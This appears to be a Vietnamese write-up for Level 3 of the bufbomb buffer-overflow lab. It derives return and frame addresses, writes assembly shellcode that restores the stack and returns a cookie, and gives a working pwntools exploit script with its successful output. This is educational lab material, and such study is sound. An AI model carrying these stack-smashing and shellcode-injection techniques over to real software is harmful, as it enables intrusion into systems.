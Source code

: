 # Level 3
## Task
Buffer overflow để hàm getbuf trả về `cookie` tương ứng với `userid` được nhập.  

## Solution
Cách chèn shellcode ở level này cũng sẽ tương tự như ở level trước, khác biệt duy nhất là chúng ta phải khôi phục trạng thái của chương trình thay vì để chương trình bị kết thúc sau khi thực thi shellcode.  

Đầu tiên, ta sẽ xác định `return address`.  

![image](https://user-images.githubusercontent.com/44528004/121771564-44868200-cb9a-11eb-9194-4148092d06ce.png)

Từ hình trên, ta thấy rằng câu lệnh sẽ được thực thi sau khi hàm `getbuf` trả về đó là:  

```
0x80139bd7 <test+19>    mov    dword ptr [ebp - 0xc], eax
```  

Vậy `return address = 0x80139bd7`.  

Bên cạnh đó, chúng ta cũng xác định được giá trị của thanh ghi `ebp` của hàm `test` là `0x55683d40`.  

Vậy lúc này, shellcode của chúng ta sẽ như sau:  
```asm
mov    $0x55683d40,%ebp
push   $0x80139bd7
ret
```

Với việc trả về `cookie`, chúng ta sẽ gán giá trị của `cookie` vào thanh ghi `eax`. Từ đó, shellcode sẽ là:  
```asm
mov    $0x8013f158,%eax
mov    (%eax),%eax
mov    $0x55683d40,%ebp
push   $0x80139bd7
ret
```  
> Với `0x8013f158` là địa chỉ của `cookie`.  

Tuy nhiên, với shellcode trên thì chương trình của chúng ta sẽ bị `segmentation fault`. Và khi debug thì ta thấy stack của chương trình trước khi gọi `getbuf` và trong khi thực thi shellcode có sự khác biệt và có lẽ đây là nguyên nhân khiến cho chương trình bị lỗi.  

Stack trước khi gọi `getbuf`:  
```
00:0000│ esp 0x55683d28 (_reserved+1039656) —▸ 0xf7f19dd6 (__memset_sse2_rep+294) ◂— add    ebx, 0x9922a
01:0004│     0x55683d2c (_reserved+1039660) —▸ 0xf7f19e6d (__memset_sse2_rep+445) ◂— add    ebx, 0x48523
02:0008│     0x55683d30 (_reserved+1039664) ◂— xchg   byte ptr [ecx + edx*4], bl /* 0x4d911c86 */
03:000c│     0x55683d34 (_reserved+1039668) —▸ 0x80139f30 (launch+122) ◂— add    esp, 0x10
04:0010│     0x55683d38 (_reserved+1039672) —▸ 0x8013b6cf ◂— push   esp /* 'Type string:' */
05:0014│     0x55683d3c (_reserved+1039676) ◂— 0xf4
06:0018│ ebp 0x55683d40 (_reserved+1039680) —▸ 0x55685fe0 (_reserved+1048544) —▸ 0xffffcbf8 —▸ 0xffffcc38 ◂— 0x0
07:001c│     0x55683d44 (_reserved+1039684) —▸ 0x80139f45 (launch+143) ◂— mov    eax, dword ptr [0x8013f15c]
```  

Stack trong khi thực thi shellcode:  
```
00:0000│ esp 0x55683d28 (_reserved+1039656) —▸ 0xf7f19d00 (__memset_sse2_rep+80) ◂— inc    edx
01:0004│     0x55683d2c (_reserved+1039660) —▸ 0xf7f19e6d (__memset_sse2_rep+445) ◂— add    ebx, 0x48523
02:0008│     0x55683d30 (_reserved+1039664) ◂— xchg   byte ptr [ecx + edx*4], bl /* 0x4d911c86 */
03:000c│     0x55683d34 (_reserved+1039668) —▸ 0x80139f30 (launch+122) ◂— add    esp, 0x10
04:0010│     0x55683d38 (_reserved+1039672) —▸ 0x8013b6cf ◂— push   esp /* 'Type string:' */
05:0014│     0x55683d3c (_reserved+1039676) ◂— 0xf4
06:0018│     0x55683d40 (_reserved+1039680) —▸ 0x55685fe0 (_reserved+1048544) —▸ 0xffffcbf8 —▸ 0xffffcc38 ◂— 0x0
07:001c│     0x55683d44 (_reserved+1039684) —▸ 0x80139f45 (launch+143) ◂— mov    eax, dword ptr [0x8013f15c]
```  

Vậy để có sự đồng nhất về stack, shellcode của chúng ta cần `pop` giá trị `0xf7f19d00` ra khỏi stack và `push` giá trị `0xf7f19dd6` vào stack.  

Từ đó, shellcode của chúng ta sẽ là:  
```asm
pop %eax
movl $0x8013F158,%eax
movl (%eax),%eax
movl $0x55683d40,%ebp
push $0xf7f19dd6
push $0x80139bd7
ret
```  
> Với câu lệnh đầu tiên sẽ `pop` giá trị `0xf7f19d00` vào thanh ghi `eax`, tuy nhiên sau đó `eax` sẽ được gán giá trị của `cookie` nên việc này sẽ không ảnh hưởng tới giá trị trả về.  

#### Script
```python
#! /bin/python3

from pwn import *

context.binary = './bufbomb'

io = process(['./bufbomb', '-u', '09821978'])

shellcode = b'\x58\xb8\x58\xf1\x13\x80\x8b\x00\xbd\x40\x3d\x68\x55\x68\xd6\x9d\xf1\xf7\x68\xd7\x9b\x13\x80\xc3'
exploit_payload = shellcode + b'\x90' * (0x28 + 0x4 - len(shellcode))
exploit_payload += p32(0x55683cf8)

print(f"{exploit_payload = }")
with open("payload.txt", 'wb') as f:
    f.write(exploit_payload)

io.sendline(exploit_payload)
io.interactive()
```  

Chạy script.  
```
└─$ python3 level3.py
[*] '/mnt/f/src-team-1/bufbomb'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
[+] Starting local process './bufbomb': pid 227
exploit_payload = b'X\xb8X\xf1\x13\x80\x8b\x00\xbd@=hUh\xd6\x9d\xf1\xf7h\xd7\x9b\x13\x80\xc3\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\xf8<hU'
[*] Switching to interactive mode
[*] Process './bufbomb' stopped with exit code 0 (pid 227)
Userid: 09821978
Cookie: 0x31f21393
Type string:Boom!: getbuf returned 0x31f21393
VALID
NICE JOB!
[*] Got EOF while reading in interactive
```  
> Chính xác!
